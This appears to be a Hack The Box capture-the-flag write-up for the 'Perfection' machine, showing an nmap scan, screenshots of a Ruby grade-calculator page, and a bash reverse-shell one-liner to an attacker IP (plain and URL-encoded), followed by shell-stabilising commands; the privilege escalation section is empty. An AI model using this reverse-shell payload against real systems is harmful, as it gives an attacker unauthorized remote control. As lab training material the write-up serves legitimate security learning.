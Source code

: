 # Perfection Write-up

<img src="https://labs.hackthebox.com/storage/avatars/57fc0f58916cb3ed8e793db071769d70.png" width="200" height="200">

##  Nmap

`nmap -sC -sV perfection.htb`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
    |_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
    80/tcp open  http    nginx
    |_http-title: 502 Bad Gateway
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Visit perfection.htb

![image](https://github.com/zer00d4y/writeups/assets/128820441/4ddecf13-024d-4b4a-b639-a7c8f614d947)

`perfection.htb/weighted-grade`

![image](https://github.com/zer00d4y/writeups/assets/128820441/143b1c47-9688-4429-923e-70f885b9a963)

Wappalyzer Ruby

![image](https://github.com/zer00d4y/writeups/assets/128820441/796cd7b9-4510-41b3-bf95-7a3a0039db5f)



![image](https://github.com/zer00d4y/writeups/assets/128820441/e63b50c3-2697-41fe-916a-56e07e04e2a9)

![image](https://github.com/zer00d4y/writeups/assets/128820441/a5a65d54-a81a-48ca-82b3-a7f189e03369)

![image](https://github.com/zer00d4y/writeups/assets/128820441/61c5f7f4-4e29-48cb-87c1-48f9aac3ab61)

bash -c 'bash -i >& /dev/tcp/10.10.14.91/4242 0>&1

bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.91/4242+0>%261'

![image](https://github.com/zer00d4y/writeups/assets/128820441/23ec8526-0b18-49bf-b1f2-49bc24bdb763)

![image](https://github.com/zer00d4y/writeups/assets/128820441/583ba02d-ec4b-46ea-a614-9c096d09dfc1)

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm`

ctrl + z

`stty raw -echo; fg`

![image](https://github.com/zer00d4y/writeups/assets/128820441/0a989f9d-3fc2-42db-9685-fe58d14f5d5f)

![image](https://github.com/zer00d4y/writeups/assets/128820441/5e20af03-b52e-418d-b107-2845cb3b948f)

## Privilege Escalation






